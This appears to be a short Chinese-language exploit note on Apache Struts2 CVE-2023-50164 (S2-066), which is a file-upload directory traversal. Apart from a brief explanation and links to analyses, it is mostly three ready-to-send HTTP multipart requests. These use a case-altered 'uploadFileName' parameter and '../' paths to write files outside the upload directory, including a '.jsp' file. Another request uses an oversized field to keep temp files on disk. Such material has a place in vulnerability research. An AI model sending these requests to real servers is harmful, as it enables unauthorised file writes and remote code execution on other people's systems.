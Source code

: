 ## Apache Struts2 CVE-2023-50164

漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；

## 漏洞复现分析
- https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
  
## poc
```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
 
 
{{randstr(4097,4097)}}
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--
```


```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";
 
../../poc.txt
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--

```

```
POST /untitled4_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------299952630938737678921373326300
Upgrade-Insecure-Requests: 1
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Sec-Fetch-Mode: navigate
Origin: http://localhost:8080
Sec-Fetch-Dest: document
Cookie: JSESSIONID=4519C8974359B23EE133A5CEA707D7D0; USER_NAME_COOKIE=admin; SID_1=69cf26c6
Referer: http://localhost:8080/untitled4_war_exploded/
Content-Length: 63765

-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="Upload"; filename="12.txt"
Content-Type: image/png

111
-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../123.jsp
-----------------------------299952630938737678921373326300--
```
![image](../../images/afd588e7-f552-46bf-a2de-6c568d0fc1a2.png)

- https://blog.csdn.net/qq_18193739/article/details/134935865
  
